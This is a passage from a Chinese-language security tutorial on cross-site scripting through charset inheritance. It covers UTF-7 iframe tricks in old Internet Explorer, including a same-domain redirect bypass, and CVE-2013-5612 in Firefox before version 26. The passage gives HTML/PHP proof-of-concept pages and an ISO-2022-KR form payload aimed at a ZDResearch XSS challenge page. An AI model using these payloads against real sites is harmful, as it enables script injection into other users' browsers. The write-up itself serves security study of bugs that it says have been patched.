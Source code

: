 ```
<html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-7">
</head>
<body>
<iframe width=500 height=600 src="http://kotowicz.net/shoutbox/shoutbox.php"></iframe>
</body>
</html>

```

大概意思就是在 IE6 那个年代,字符集继承问题横行,我们只需要一个 iframe 就能完成这个挑战(我没有在 playonlinux 里的 IE6 里复现成功,所以可能你需要足够古老的环境来重现这个问题)。笔者提到对于 IE8 来说,我们只能继承同域的字符集(iframe)。但是那个时候有一个小的 BUG 可以用来欺骗浏览器。

大致思路如下:

```
// utf7exploit.html
<html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-7">
</head>
<body>
<iframe width=500 height=600 src="redirect.php"></iframe>
</body>
</html>
// redirect.php
<?php
header("Location: http://path.to/shoutbox.php");
?>

```

包含一个同域的文件,并在那个文件里通过 header(Location:somedomain)来进行跳转进而绕过不同域 iframe 不能继承字符集的限制。(`>.<` 那是个多么美好的年代啊)。不过遗憾的是后来这个漏洞也被补了。如果你想亲自体验一吧。可能需要你在 winxp sp2+ IE7 的环境下进行复现。

## 0x04 不是所有的跨域字符集继承都得用 iframe

* * *

在我们对跨域的字符集继承问题的严重性有了一定的了解之后。让我们再看看日本的猥琐流是怎么玩的吧。这是 MK 在完成 ZDResearch 出的一个 XSS 挑战时所用到的一个漏洞。(CVE2013-5612)

在 Firefox26 之前的版本下,如果对没有进行 charset 设定的页面通过 POST 发送请求,那么即使是在不同域的情况下也会继承发送页面的 charset 导致可以被 XSS 攻击所利用。换句话来说,我们可以从任意页面发送 post 请求,来对没有设置 charset 的页面,进行 charset 的任意设定。

下面是 ZDResearch 的 XSS 挑战(没有设置 charset): ￼￼￼ [`zdresearch.com/challenges/xss1/`](https://zdresearch.com/challenges/xss1/)

这是 MK 构造的 POST 页面:

[`l0.cm/zdresearch_xss_challenge.html`](http://l0.cm/zdresearch_xss_challenge.html)

具体的 POC 代码如下:

```
<meta charset="iso-2022-kr">
<form action="https://zdresearch.com/challenges/xss1/" method="post">
<input name="XSS" value="<h1 a=&#x0E;>&#x0F;onmouseover=location='jav\x41script\x3Aalert\x28&quot;MK&quot;\x29' >xxx">
<input type="submit" value="go">
</form>

```
